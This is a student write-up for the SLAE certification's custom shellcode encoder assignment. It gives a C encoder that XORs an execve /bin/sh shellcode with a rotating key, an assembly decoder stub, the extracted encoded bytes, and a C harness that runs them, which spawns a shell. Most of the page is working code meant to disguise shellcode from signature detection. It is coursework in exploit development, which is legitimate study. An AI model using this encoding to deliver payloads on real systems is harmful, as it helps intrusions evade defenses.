 # Assignment 4

## What to do
- Create a custom encoding scheme
- PoC with using execve-stack as the shellcode to encode with the produced schema and execute

## How to do it

The custom encoding schema created on this post is based on xor and rotate.

##### Encoding

The encoder operates on a given shellcode placed in the buffer named _shellcode_ and a given byte - key.

Starting from the first byte of the shellcode, it is xor-ed with the byte - key. The next shellcode byte is xored with the right rotated key - byte. This process takes place until all the bytes of the shellcode are encoded.

```
#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>

int main(int argc, char **argv)
{
	// execve shellcode
	uint8_t *shellcode =
		"\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68"		// execve /bin/sh shellode
		"\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"; 	//

	uint8_t key = '\x6d';	// encoding key
	uint8_t *newshell;
	int i, length=0;

	// length of shellcode
	i=0;
	while (shellcode[i++] != '\0')
		length++;

	// allocate memory for the encoded shellcode
	newshell = (uint8_t *)malloc(sizeof(uint8_t)*length);

	// make the encoding
	// xor shellcode byte with key and then right rotate the key
	for (i=0; i < length; i++)
	{
		newshell[i] = shellcode[i] ^ key;	// xor shellcode byte with key
		key = ((key >> 1) | (key << 7));	// right rotate the key
	}

	printf("[+] Length of the encoded shellcode including key: %d bytes\n", length+1);
	printf("[+] Encoded shellcode and key:\n");

	// print the encoded shellcode
	printf("\t");
	for (i=0; i<length; i++)
	{
		printf("0x%02x", newshell[i]);
		if (i != length-1)
			printf(",");
	}

	// at the end of the encoded shellcode, place the encoding key
	printf(",0x%02x\n", key);

	return 0;

}
```

The code above can be found in _Assignement #4_ repo and is named as _encoder.c_

It can be compiled using `gcc -o encoder encoder.c`

The encoder can be easily modified in order to encode a different payload with a different key. For this purpose, another payload can be loaded in the buffer named _shellcode_ and another key in the variable named _key_.

##### Decoding

The decoding process begins in reverse order with rotating left the key byte and xor-ing it with the last byte of the shellcode. After that the key is rotated left and xored with the next byte of the shellcode. This process continues until the first byte of the shelloce is decoded.

```assembly
global _start

section .text
_start:

	jmp short call_shellcode

decoder:

	pop esi				; pointer to the begining of the shellcode
	xor ecx, ecx			; clear ecx
	mul ecx				; clear edx, eax
	lea edx, [esi+0x14]		; counter - pointer to the end of the shellcode
	mov al, byte [edx+0x1]		; mov the key(6b) into ecx - key located at the end of EncodedShellcode

decode:

	rol al, 1			; left rotate (calculate previous key)
	mov bl, al			; store key into ebx
	xor bl, [edx]			; xor to decode the encoded byte
	mov byte [edx], bl		; store decoded byte into memory
	cmp esi, edx			; is it the last byte of our shellcode?
	jz short EncodedShellcode	; jump to decoded shellcode
	dec edx				; decrement counter
	jmp short decode		; continue the decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0x5c,0x7f,0xac,0x4c,0x86,0x03,0xdb,0xf5,0x1e,0xde,0x33,0x82,0xf9,0x09,0xdc,0x53,0x8e,0x06,0x50,0x60,0x56,0x6b

```

The Assembly code can be compiled using the following commands respectively:
```zsh
$ nasm -f elf -o shell.o shell.asm
$ ld -o shell shell.o
```

Next step is to extract the actual shellcode from the elf file using this one-liner command:
```zsh
$ objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
found in [commandlinefu.com](http://www.commandlinefu.com)

The extracted bytes are:
```
"\xeb\x1a\x5e\x31\xc9\xf7\xe1\x8d\x56\x14\x8a\x42\x01\xd0\xc0"
"\x88\xc3\x32\x1a\x88\x1a\x39\xd6\x74\x08\x4a\xeb\xf1\xe8\xe1"
"\xff\xff\xff\x5c\x7f\xac\x4c\x86\x03\xdb\xf5\x1e\xde\x33\x82"
"\xf9\x09\xdc\x53\x8e\x06\x50\x60\x56\x6b"
```

The following code can be used to create the elf file in order to test the decoder. The shellcode must be placed in the shellcode buffer:
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x1a\x5e\x31\xc9\xf7\xe1\x8d\x56\x14\x8a\x42\x01\xd0\xc0"
"\x88\xc3\x32\x1a\x88\x1a\x39\xd6\x74\x08\x4a\xeb\xf1\xe8\xe1"
"\xff\xff\xff\x5c\x7f\xac\x4c\x86\x03\xdb\xf5\x1e\xde\x33\x82"
"\xf9\x09\xdc\x53\x8e\x06\x50\x60\x56\x6b"

main()
{

        printf("Shellcode Length:  %d\n", strlen(shellcode));

        int (*ret)() = (int(*)())shellcode;

        ret();

}
```

The code above can be found in _Assignement #4_ repo and is named as _shell.c_

The shellcode can be compiled using `gcc -fno-stack-protector -z execstack shell.c -o shell`

The execution of the elf shellcode provided the two arguments, will spawn an sh shell.

/image

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
